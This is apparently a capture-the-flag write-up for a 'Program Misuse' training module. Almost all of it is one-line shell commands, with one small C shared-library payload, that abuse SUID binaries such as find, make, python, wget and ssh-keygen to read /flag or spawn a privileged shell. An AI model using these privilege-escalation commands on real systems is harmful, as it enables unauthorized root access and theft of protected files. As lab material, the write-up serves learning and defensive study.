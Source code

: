 # Playing With Programs

## Program Misuse

> [GTFOBins](https://gtfobins.github.io)

### level23

```shell
/challenge/bin/genisoimage -sort "/flag"
```

### level24

```shell
/challenge/bin/env /bin/sh -p
```

### level25

```shell
./find . -exec /bin/sh -p \; -quit
```

### level26

```shell
COMMAND='/bin/sh -p'
./make -s --eval=$'x:\n\t-'"$COMMAND"
```

### level27

```shell
./nice /bin/sh -p
```

### level28

```shell
./timeout 7d /bin/sh -p
```

### level29

```shell
./stdbuf -i0 /bin/sh -p
```

### level30

```shell
./setarch $(arch) /bin/sh -p
```

### level31

```shell
./watch -x sh -p -c 'reset; exec sh -p 1>&0 2>&0'
```

### level32

```shell
LFILE=/flag
socat -u "file:$LFILE" -
```

### level33

```shell
LFILE=/flag
whiptail --textbox --scrolltext "$LFILE" 20 80
```

### level34

```shell
LFILE=/flag
./awk '//' "$LFILE"
```

### level35

```shell
LFILE=/flag
./sed -e '' "$LFILE"
```

### level36

```shell
./ed /flag
,p
q
```

### level37

```shell
chown /flag hacker
cat /flag
```

### level38

```shell
chmod 777 /flag
cat /flag
```

### level39

```shell
cp /flag /dev/stdout
```

### level40

```shell
/challenge/bin/mv /usr/bin/cat /challenge/bin/mv
/challenge/babysuid
/challenge/bin/mv /flag
```

### level41

```shell
perl -ne print /flag
```

### level42

```shell
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

### level43

```shell
echo "puts File.read("/flag")" > ruby-exp.rb
./ruby ruby-exp.rb
```

### level44

```shell
./bash -p
```

### level45

```shell
./date -f /flag
```

### level46

```shell
./dmesg -rF /flag
```

### level47

```shell
./wc --files0-from /flag
```

### level48

```shell
./gcc @/flag
```

### level49

```shell
./as @/flag
```

### level50

```shell
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
./wget --use-askpass=$TF 0
```

### level51

1. 先编写一个test.c

   ```c
   #include <dlfcn.h>
   #include <unistd.h>
   
   static void C_GetFunctionList() __attribute__((constructor));
   
   void C_GetFunctionList()
   {
       printf("euid: %d\n", geteuid());
       execl("/bin/sh","/bin/sh -p","-p",NULL)
   }
   
   int main()
   {
       return 0;
   }
   ```

   2. 然后编译`gcc -shared -o libtest.so -fPIC test.c`
   3. 然后用ssh-keygen运行`ssh-keygen -D libtest.so`获取shell

